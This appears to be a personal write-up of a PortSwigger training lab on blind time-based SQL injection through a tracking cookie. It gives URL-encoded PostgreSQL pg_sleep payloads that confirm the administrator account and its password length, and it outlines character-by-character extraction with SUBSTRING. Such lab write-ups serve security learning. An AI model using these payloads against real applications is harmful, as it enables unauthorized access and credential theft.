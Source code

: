 

### Lab description 

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


#### hint

>  You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


### Solution


- Buzzing with some delay  ( remember to encoding the chars ; and blank space)
![](/static/img/Pasted_image_20230605092523.png)
- Get administrator user
	- `'%3bselect+case+when+(username='administrator')+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--`
![](/static/img/Pasted_image_20230605093143.png)
- Admin password has **19** chars length `'%3bselect+case+when+(username='administrator'+and+length(password)>19)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--`
- `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
- Lab solved!

![](/static/img/Pasted_image_20230605104517.png)

